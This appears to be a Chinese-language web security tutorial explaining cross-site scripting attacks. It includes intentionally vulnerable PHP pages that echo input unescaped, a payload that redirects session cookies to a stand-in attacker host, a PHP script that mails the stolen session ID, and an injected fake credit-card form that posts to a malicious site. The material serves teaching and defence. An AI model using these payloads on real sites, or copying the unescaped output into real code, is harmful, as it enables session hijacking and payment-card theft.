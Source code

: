 跨站脚本（基础篇）之攻击手段与影响
=================================================================
为了更好地理解`XSS`的攻击方法与影响，首先让我们来看一下 **`XSS`被恶意使用的`3`种方式**：
+ **窃取`Cookie`值**
+ **通过`JavaScript`攻击**
+ **篡改网页**

### XSS窃取Cookie值
假设以下`PHP`脚本是搜索页面的一部分。该页面需要用户登录后才能使用，页面上显示的是搜索关键词。
```php
<?php
    session_start();
    //登录校验（略）
?>
<body>
检索关键词：<?php echo $_GET['keyword']; ?><br>
以下略
</body>
```
先来看一下正常情况，假设关键词为“Haskell”，URL如下：http://example.jp/43/43-001.php?keyword=Haskell 。

再看一下攻击的例子：http://example.jp/43/43-001.php?keyword=<script>alert(document.cookie)</script>

上面这个攻击的例子中，**保存在`Cookie`中的会话`ID(PHPSESSID)`会被显示出来。表明外部注入的`Javascript`成功
读取到了会话`ID`**。

#### 使用被动攻击盗取他人的Cookie值
能够显示自己的会话`ID`对于攻击者来说并无太大意义，**在实际的攻击中，攻击者需要将存在隐患的网站的用户引诱至恶意网站**。
以下就是恶意网站的示例：
```php
<html><body>
商品大甩卖
<br><br>
<iframe width=320 height=100 src="http://example.jp/43/43-001.php?keyword=<script>window.location='http://trap.example.com/43/43-901.php?sid='%2Bdocument.cookie;</script>">
</frame>
```
**恶意网站的`HTML`使用了`iframe`元素来显示存在隐患的网站的页面（`/43/43-001.php`），并对其实施`XSS`攻击**。
```
实际的攻击中，攻击者会通过设置CSS将iframe部分隐藏，以不被用户看到
```
攻击流程：
+ 恶意网站的`iframe`中显示出存在隐患的网站
+ 存在隐患的网站遭受攻击后，`Cookie`值被添加到`URL`的查询字符串中，页面跳转到信息收集页面
+ 信息收集页面将接收到的`Cookie`值通过邮件发送给攻击者

以下为收集信息用的脚本，它会将收集到的会话`ID`发送给攻击者的邮箱（假定为`wasbook@example.jp`）。
```php
<?php
    mb_language('Japanese');
    $sid = $_GET['sid'];
    mb_send_mail('wasbook@example.jp','攻击成功','会话ID:' . $sid, 'From: cracked@trap.example.com');
?>
<body>攻击成功<br>
<?php echo $sid; ?>
</body>
```
如此这般，**如果用户是在登录了存在隐患的网站之后浏览的恶意网页**，就会中了`XSS`的招而使自己的会话`ID`通过邮件发送给攻击者。
攻击者利用得到的会话`ID`，就可以伪装成其他用户肆意忘为。

### 通过JavaScript攻击
在上面的例子中，攻击者利用`JavaScript`读取到了用户的`Cookie`值，然而，事实上利用`JavaScript`实施的攻击却远不止如此。
另外，随着`Ajax`技术的风靡，通过`JavaScript`调用`Web`应用的各种功能的程序（`API`）在网站中的分量正在逐步增加。
由于`API`也能被恶意用于实施攻击，因此，综合使用`XSS`与`JavaScript`的攻击实施起来反而变得更容易了。

#### 篡改页面
示例，某新发布的手机预购网站。该网站由于存在`XSS`漏洞，因此便能够对网页中的`HTML`元素进行添加/更改/删除，
或者更改表单发送的目标。

网页脚本的主干内容如下。由于该页面兼任着输入页面和编辑页面，因此各个输入框都设置了初始值。而`XSS`漏洞就存在于此。
```php
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">
<html>
<head><title>全新手机预约</title></head>
<body>
<form action="" method="POST">
姓名<input size="20" name="name" value="<?php echo @$_POST['name']; ?>"><br>
地址<input size="20" name="addr" value="<?php echo @$_POST['addr']; ?>"><br>
电话号码<input size="20" name="tel" value="<?php echo @$_POST['tel']; ?>"><br>
型号<input size="10" name="kind" value="<?php echo @$_POST['kind']; ?>"><br>
数量<input size="5" name="num" value="<?php echo @$_POST['num']; ?>"><br>
<br>
<input type=submit value="申请"></form>
</body>
</html>
```
**虽然该网站没有认证功能，但同样能对其实施`XSS`攻击**。

以下`HTML`(`43-902.html`)为对“某新款手机的预约网站”进行`XSS`攻击的恶意网页。
**该页面同时也可以作为不使用`JavaScript`的`XSS`攻击的示例**，页面上通过样式将攻击用表单的提交
按钮伪装成了链接的样子。
```php
<html>
<head><title>使用信用卡预约全新手机</title></head>
<body>
现在可以使用信用卡预约手机，赶紧下单吧。
<BR>
<form action="http://example.jp/43/43-002.php" method="POST">
<input name="name" type="hidden" value='">
    </form><form style=top:5px;left:5px;position:absolute;z-index:99;background-color:white 
    action=http://trap.example.com/43/43-903.php method=POST>请使用信用卡支付预购定金<br>姓名
    <input size=20 name=name><br>地址<input size=20 name=addr><br>电话号码<input size=20 name=tel>
    <br>型号<input size=10 name=kind>数量<input size=5 name=num><br>信用卡号<input size=16 name=card>
    有效期限<input size=5 name=thru><br><input value=申请 type=submit><br><br><br><br></from>'><!-注入的HTML->

<input style="cursor:pointer;text-decoration:underline;color:blue;
border:none;background:transparent;font-size:100%;" type="submit" value="手机预约中心"> <!-伪装成链接的按键->
</form>
</body>
</html>
```
恶意网页通过下列手段隐藏原先的`form`并添加新的`form`，从而改变页面：
+ **使用</form>使原先页面的`form`元素结束**
+ **添加新的form元素，并指定`style`如下：**
    + 通过指定绝对座标将`form`的位置定位于左上角
    + 将`z-index`设置为很大的值（`99`），确保其堆叠顺序在原先`form`的前面
    + 将背景色设计为白色，从而隐藏原先的`form`
+ **将`action`的`URL`指定为恶意网站**

页面上被添加了“请使用信用卡支付预购定金”和输入信用卡卡号及有效期限的文本框。此外，尽管页面上看不出来，
但`form`元素的`action`属性已经被变成了恶意网站的`URL`。

然而，浏览器地址栏上显示的`URL`却同先前的手机预购网站完全一致。此外，虽然本例没有涉及，**但事实上当网站为`https`时
其证书也会被显示为正规。因此，用户便找不到任何蛛丝马迹来识破这一伪装的页面**。

由此可见，**`XSS`并非一定会使用`JavaScript`，因此，如果防范策略仅局限于`script`元素（例如将“script”单词全部删除），
攻击者还是会有可乘之机**。而对用户来说，仅在浏览器中禁止`Javascript`也是不能得以高枕无忧的。

#### 反射型XSS与存储型XSS
根据攻击用`JavaScript`代码的存储地点将`XSS`攻击分类。

**如果攻击用`JavaScript`代码位于攻击目标网站之外的其他网站（恶意网站或邮件中的`URL`）,就称之为反射型`XSS`**。
最先介绍的`43-001.php`中的`XSS`攻击模式，就属于反射型`XSS`。**反射型`XSS`多发生于网页将用户的输入值原封不动地显示
出来的情况下。其中，输入值确认页面就是一个典型的例子**。

















